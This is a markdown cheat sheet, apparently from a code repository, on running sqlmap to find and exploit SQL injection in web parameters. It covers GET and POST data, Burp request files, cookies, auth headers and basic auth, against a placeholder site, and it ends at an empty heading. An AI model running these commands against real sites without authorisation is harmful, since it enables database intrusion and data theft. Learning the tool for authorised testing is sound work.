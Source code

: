 # sqlmap 

## Simple Usage

If you don’t know anything about the target site then use the normal command first, 
Observe if the SQLMap found something juicy for you

```sh
sqlmap -u “https://target_site.com/page/”
```

### Automatic GET request parameter
```sh
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”
```
### Specify the GET request parameters to Exploit

You can specify on which parameter you want to check or exploit the sql injection using just “-p” flag.
```sh
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2” -p p1
```

### Use POST requests (Test All parameters)
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"
```

### SQLMap Request file as input

You can specify a request file containing the HTTP request, You can get it quickly from BurpSuite.

```sh
sqlmap -r request.txt
```

### Here you can specify the targeted parameter or sqlmap will recognize and will test for all the parameters found.

!! info "Specify Custom Position in HTTP request file - You can use the asterisk sign(*) to specify which parameter to attack or which place of the request to be attacked. You can specify or mark any part of the request by this method."

### Use Authenticated Session With Cookie
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"
```
### Use Authenticated Session with Auth Headers
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"
```
### Basic Authentication
```sh
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password
```
### Use Previously created Session as SQLmap input (-s)
